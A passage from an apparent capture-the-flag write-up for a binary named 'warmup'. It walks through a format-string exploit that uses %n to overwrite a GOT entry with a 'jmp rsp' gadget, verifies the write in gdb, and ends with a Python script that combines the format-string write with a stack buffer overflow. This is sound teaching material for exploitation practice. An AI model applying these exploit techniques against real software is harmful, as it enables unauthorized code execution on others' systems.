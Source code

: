 The `print` statement is 24 bytes long, same as above, but instead of printing a lot of padding and a real address use `NNNNNN` and `AAAAAAAA`.  As soon as there is a match (`0x4141414141414141`), the argument to `%n` is known.

To test the payload, start up `gdb warmup` and set a breakpoint at `main`'s `ret`:

![](warmup-5.png)

Now, run it with `run <payload` and check the value at `0x601000`:

![](warmup-6.png)

Execution stopped just before `ret`, and the `printf` successfully overwrote the GOT PLT with `jmp rsp`.

The rest is easy.  It is identical to the first attempt.  Continue to write to the buffer until overflow, use `0x601000` as the return address, that will then `jmp rsp` back to the stack where the machine code lives:

```
#!/usr/bin/env python

import struct

payload = ""
payload += "%58622x "
payload += "%08$n   "
payload += struct.pack("<Q",0x601000)
overflow_len=264 # predetermined from first attempt
payload +=  "A"*(overflow_len-len(payload))
payload += struct.pack("<Q",0x601000)
payload += "\xCC"

print payload
```
```
```